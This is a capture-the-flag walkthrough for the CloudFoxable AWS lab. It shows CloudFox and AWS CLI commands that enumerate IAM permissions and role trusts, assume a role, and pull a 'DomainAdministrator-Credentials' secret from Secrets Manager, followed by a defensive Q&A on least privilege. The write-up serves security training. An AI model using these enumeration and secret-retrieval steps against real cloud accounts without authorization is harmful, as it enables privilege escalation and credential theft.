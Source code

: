 
# 🔐 CloudFoxable Challenge: Retrieving AWS Secrets Manager Flag

## 🧾 Overview

In this CloudFoxable challenge, the task involved identifying and assuming an AWS IAM role capable of retrieving a specific secret (`DomainAdministrator-Credentials`) from AWS Secrets Manager. This scenario simulated a realistic cloud penetration test, focusing on enumerating permissions, analyzing IAM trust relationships, assuming roles, and retrieving sensitive information (flag).

---

## 🎯 Objectives

Through this challenge, I aimed to:

- Identify IAM roles with permissions to access a specific AWS Secrets Manager secret.
- Analyze IAM trust relationships to understand which users could assume specific roles.
- Inspect IAM policies to confirm detailed permissions explicitly granted.
- Assume a role based on IAM trust policy findings.
- Retrieve the secret (flag) using AWS CLI.

---

## 🚩 Detailed Steps and Expected Outputs

### Step 1: Enumerating Permissions with CloudFox

**Command:**
```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

**Expected Output (Anonymized AWSACCOUNT):**
```
Role │ Alexander-Arnold │ Allow │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx
```

### Step 2: Analyzing IAM Trust Relationships

**Command:**
```bash
cloudfox aws -p cloudfoxable role-trusts -v2
```

**Expected Output:**
```
Role: Alexander-Arnold
Trusts: arn:aws:iam::AWSACCOUNT:user/ctf-starting-user
```

### Step 3: Listing Attached IAM Policies

**Command:**
```bash
aws --profile cloudfoxable iam list-attached-role-policies --role-name Alexander-Arnold
```

**Expected Output:**
```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

### Step 4: Retrieving IAM Policy Metadata

**Command:**
```bash
aws --profile cloudfoxable iam get-policy --policy-arn arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy
```

**Expected Output:**
```json
{
  "Policy": {
    "PolicyName": "corporate-domain-admin-password-policy",
    "Arn": "arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy",
    "DefaultVersionId": "v1",
    "AttachmentCount": 1,
    "IsAttachable": true,
    "CreateDate": "2025-03-05T22:48:54+00:00",
    "UpdateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

### Step 5: Inspecting IAM Policy Permissions

**Command:**
```bash
aws --profile cloudfoxable iam get-policy-version \
  --policy-arn arn:aws:iam::AWSACCOUNT:policy/corporate-domain-admin-password-policy \
  --version-id v1
```

**Expected Output:**
```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": ["secretsmanager:GetSecretValue"],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx"
          ]
        }
      ],
      "Version": "2012-10-17"
    },
    "VersionId": "v1",
    "IsDefaultVersion": true,
    "CreateDate": "2025-03-05T22:48:54+00:00"
  }
}
```

### Step 6: Assuming Role & Retrieving the Secret (Flag)

**Command:**
```bash
aws --profile Alexander-Arnold secretsmanager get-secret-value \
  --secret-id arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-xxxxxx \
  --region us-west-2
```

**Expected Output (Flag):**
```json
{
  "ARN": "arn:aws:secretsmanager:us-west-2:AWSACCOUNT:secret:DomainAdministrator-Credentials-qc9Cvn",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "744ABAF0-0338-4ADD-99A5-A98DC465B202",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-03-05T17:48:53.890000-05:00"
}
```

---

## ❓ Challenge Questions & Answers

**Q1:** Why did I need to inspect both permissions and IAM role trust policies?  
**A:** To ensure I identified not only which role could access the secret but also whether my IAM user had permission (trust) to assume that role.

**Q2:** What risk arises if an IAM role trust policy is overly permissive?  
**A:** Overly permissive trust policies can lead to privilege escalation, allowing unintended users or roles to assume high-privileged roles, potentially compromising sensitive data or resources.

**Q3:** Why is it essential to explicitly specify resources in IAM policies?  
**A:** Explicit resource definitions prevent unintended access, reducing security risks and adhering to the principle of least privilege.

**Q4:** Can a user assume a role without having explicit `sts:AssumeRole` permissions in their IAM policy?  
**A:** Yes. If a user's ARN is explicitly included as a trusted principal in the role's trust policy, they can assume the role without explicit `sts:AssumeRole` permission.

**Q5:** How does CloudFox support effective cloud security enumeration and analysis?  
**A:** CloudFox automates the enumeration and visualization of IAM permissions, trust relationships, and potential misconfigurations, significantly improving cloud security visibility and identifying privilege escalation paths quickly.

---

## 🎓 What I Learned

Through this challenge, I learned:

- How to effectively enumerate AWS permissions and trust relationships using CloudFox.
- The importance of clearly defined IAM permissions and trust policies in AWS security.
- Practical AWS CLI commands for analyzing IAM roles, policies, and retrieving secrets.
- The real-world implications of IAM misconfigurations and the importance of the least privilege principle.

---

## Conclusion

This CloudFoxable challenge provided a practical, hands-on opportunity to explore AWS IAM permissions and trust relationships, demonstrating realistic cloud security enumeration, privilege escalation, and secret retrieval processes. I significantly strengthened my AWS security and IAM skills, essential for cloud security professionals and penetration testers.

---

### 📚 References & Tools

- **CloudFox:** [https://github.com/BishopFox/cloudfox](https://github.com/BishopFox/cloudfox)
- **AWS CLI IAM Documentation:** [AWS IAM CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html)
- **AWS Secrets Manager CLI:** [AWS Secrets Manager CLI](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/index.html)

---

*Prepared by: Ashish Gurau*  
*Cloud Security & IAM Enumeration Walkthrough*
